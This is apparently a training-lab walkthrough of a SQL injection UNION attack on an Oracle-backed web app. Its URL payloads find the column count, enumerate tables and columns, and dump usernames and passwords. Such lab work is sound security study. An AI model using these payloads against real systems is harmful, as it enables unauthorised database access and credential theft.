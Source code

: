 # lab-listing-database-contents-oracle

`/filter?category=Pets'+UNION+SELECT+NULL+FROM+dual--`: Internal Server Error

`/filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+dual--`: Ok (2 columns)

Get tables list:

`/filter?category=Pets'+UNION+SELECT+table_name,+owner+FROM+all_tables--`

Users table name is `USERS_TMEMJL` (suffix is random).

Get users table columns list:

`/filter?category=Pets'+UNION+SELECT+column_name,+data_type+FROM+all_tab_columns+WHERE+table_name='USERS_TMEMJL'--`

Users table has two columns: `USERNAME_TPVCRN` and `PASSWORD_XMYDGK` (suffix is random).

Get users with passwords:

`/filter?category=Pets'+UNION+SELECT+USERNAME_TPVCRN,+PASSWORD_XMYDGK+FROM+USERS_TMEMJL--`

Solved.
